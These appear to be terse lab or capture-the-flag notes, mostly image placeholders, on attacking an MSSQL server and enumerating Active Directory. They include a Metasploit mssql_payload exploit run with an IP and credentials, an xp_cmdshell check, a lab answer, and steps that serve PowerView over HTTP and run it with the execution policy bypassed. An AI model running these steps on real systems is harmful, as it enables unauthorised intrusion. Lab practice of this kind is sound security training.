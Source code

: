 ![[Pasted image 20251014083959.png]]

![[Pasted image 20251014082011.png]]
![[Pasted image 20251014152628.png]]

![[Pasted image 20251014153640.png]]
check xp_cmdshell value is 1 to make sure enabled

run msfconsole

![[Pasted image 20251014153540.png]]

execute
use exploit/windows/mssql/mssql_payload
set RHOST 192.168.10.144
set USERNAME Server_mssrv
set PASSWORD Spidy
set DATABASE msdb
exploit

![[Pasted image 20251014153916.png]]
![[Pasted image 20251014153937.png]]
![[Pasted image 20251014154001.png]]

![[Pasted image 20251014154050.png]]
![[Pasted image 20251014154123.png]]
![[Pasted image 20251014154229.png]]

![[Pasted image 20251014154311.png]]

ANSWER: 7

![[Pasted image 20251014154343.png]]


/root/ADtools/PowerView.ps1

python3 -m http.server

open browser to access "http://ip:8000"
download "PowerView.ps1"

powershell -EP Bypass
. .\PowerView.ps1
Get-NetComputer

OR

powershell
Import-Module ActiveDirectory
Get-ADComputer -Filter *
![[Pasted image 20251014114924.png]]
